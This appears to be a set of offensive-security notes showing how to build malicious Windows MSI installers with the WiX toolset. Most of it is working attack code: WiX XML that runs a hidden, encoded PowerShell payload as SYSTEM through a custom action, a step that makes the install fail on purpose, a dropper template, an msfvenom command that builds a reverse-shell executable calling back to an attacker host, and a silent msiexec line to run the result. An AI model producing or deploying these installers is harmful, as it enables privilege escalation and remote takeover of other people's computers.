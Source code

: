 # [[Software Packaging#^4ab6c2|Manual]]

## 01 - Compile Payload

```
$ wix msi transform

$ wix msi validate
```

### 1.1 - Fileless Payload

TODO: Figure out how to compile it in `dotnet` to resolve the issue.

At minimum, the `Property` line needs to be changed to the command you want to execute. Also needs to be changed in order to build the MSI installer.

```xml
<File Id="ApplicationFile1" Source="Updater.exe"/>
```

The important parts to note of the `CustomAction` tag.

```xml
<Property Id="cmdline">powershell.exe -nop -w hidden -e <base64_payload></Property>
<CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>
</CustomAction>
```

Finally, we have our `InstallExecuteSequence` tag, which is responsible for executing our custom actions in order. So, when executed our first custom action will be launched, forcing our payload to run as the SYSTEM account. Our second custom action will be launched, causing some invalid VBScript to be executed and stop the install process with an error.

```xml
<InstallExecuteSequence>
 <Custom Action="SystemShell" After="InstallInitialize"></Custom>
 <Custom Action="FailInstall" Before="InstallFiles"></Custom>
</InstallExecuteSequence>
```

Name this file `msigen.wix`.

```xml
<?xml version="1.0"?>
<Wix xmlns="http://wixtoolset.org/schemas/v4/wxs">
	<Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name" Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
		<Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
		<Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>

	<Directory Id="TARGETDIR" Name="SourceDir">
		<Directory Id="ProgramFilesFolder">
			<Directory Id="INSTALLLOCATION" Name="Example">
				<Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
					<File Id="ApplicationFile1" Source="Updater.exe"/>
				</Component>
			</Directory>
		</Directory>
	</Directory>

	<Feature Id="DefaultFeature" Level="1">
		<ComponentRef Id="ApplicationFiles"/>
	</Feature>

	<Property Id="cmdline">powershell.exe -nop -w hidden -e <base64_payload>
	</Property>

	<CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>
	</CustomAction>

	<InstallExecuteSequence>
		<Custom Action="SystemShell" After="InstallInitialize"></Custom>
	</InstallExecuteSequence>

	</Product>
</Wix>
```

We have received an error.

```
$ touch Updater.exe

$ wixl -v msigen.wix -o payload.msi
```

Let's convert it and build an MSI installer.

```
$ wix convert msigen.wix

$ wix build msigen.wix -o payload.msi
```

---
TODO: Clearly works

```xml
<?xml version="1.0"?>
<Wix xmlns="http://wixtoolset.org/schemas/v4/wxs">
	<Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name" Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
		<Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
			<Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>

	<Directory Id="TARGETDIR" Name="SourceDir">
		<Directory Id="ProgramFilesFolder">
			<Directory Id="INSTALLLOCATION" Name="Example">
				<Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
					<File Id="ApplicationFile1" Source="Updater.exe"/>
				</Component>
			</Directory>
		</Directory>
	</Directory>

	<Feature Id="DefaultFeature" Level="1">
		<ComponentRef Id="ApplicationFiles"/>
	</Feature>

	<Property Id="cmdline">powershell.exe -nop -w hidden -e <base64_payload>
	</Property>

	<CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>
	<CustomAction Id="FailInstall" Execute="deferred" Script="vbscript" Return="check">
	invalid vbs to fail install
	</CustomAction>

	<InstallExecuteSequence>
		<Custom Action="SystemShell" After="InstallInitialize"></Custom>
		<Custom Action="FailInstall" Before="InstallFiles"></Custom>
	</InstallExecuteSequence>

	</Product>
</Wix>
```

### 1.2 - Dropper Payload

```xml
<?xml version='1.0' encoding='windows-1252'?>
<Wix xmlns='http://wixtoolset.org/schemas/v4/wxs'>
	<Product Name='Foobar 1.0' Id='ABCDDCBA-86C7-4D14-AEC0-86416A69ABDE' UpgradeCode='ABCDDCBA-7349-453F-94F6-BCB5110BA4FD' Language='1033' Codepage='1252' Version='1.0.0' Manufacturer='Acme Ltd.'>

	<Package Id='*' Keywords='Installer' Description="Acme's Foobar 1.0 Installer" Comments='Foobar is a registered trademark of Acme Ltd.' Manufacturer='Acme Ltd.' InstallerVersion='100' Languages='1033' Compressed='yes' SummaryCodepage='1252' />

	<Media Id='1' Cabinet='Sample.cab' EmbedCab='yes' DiskPrompt="CD-ROM #1" />
	<Property Id='DiskPrompt' Value="Acme's Foobar 1.0 Installation [1]" />

	<Directory Id='TARGETDIR' Name='SourceDir'>
		<Directory Id='ProgramFilesFolder' Name='PFiles'>
			<Directory Id='Acme' Name='Acme'>
				<Directory Id='INSTALLDIR' Name='Foobar 1.0'>

			<Component Id='MainExecutable' Guid='ABCDDCBA-83F1-4F22-985B-FDB3C8ABD471'>
				<File Id='FoobarEXE' Name='FoobarAppl10.exe' DiskId='1' Source='Updater.exe' KeyPath='yes'/>
			</Component>

				</Directory>
			</Directory>
		</Directory>
	</Directory>

	<Feature Id='Complete' Level='1'>
		<ComponentRef Id='MainExecutable' />
	</Feature>

	</Product>
</Wix>
```

For fileless malware just make an empty file `touch Updater.exe` unless if it's a dropper then generate with `msfvenom` payload. Then build a MSI installer.

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f exe -o Updater.exe

$ wixl -v msigen.wix -o payload.msi
Loading msigen.wix...
Building payload.msi...
Writing payload.msi...
```

## 02 - Payload Execution

| Flag     | Description                                            |
| -------- | ------------------------------------------------------ |
| `/quiet` | Suppress any messages to the user during installation. |
| `/qn`    | No GUI                                                 |
| `/i`     | Regular (vs. administrative) installation              |

```
C:\> msiexec.exe /quiet /qn /i payload.msi "C:\path\to\payload.msi"
```

---
## References

### Firegiant

- [Firegiant Documentation: Using Wix](https://docs.firegiant.com/wix/using-wix/)

### LOLBAS

- [LOLBAS: Msiexec](https://lolbas-project.github.io/lolbas/Binaries/Msiexec/)

### mgeeky

- [mgeeky: MSI Shenanigans. Part 1 - Offensive Capabilities Overview](https://mgeeky.tech/msi-shenanigans-part-1/)
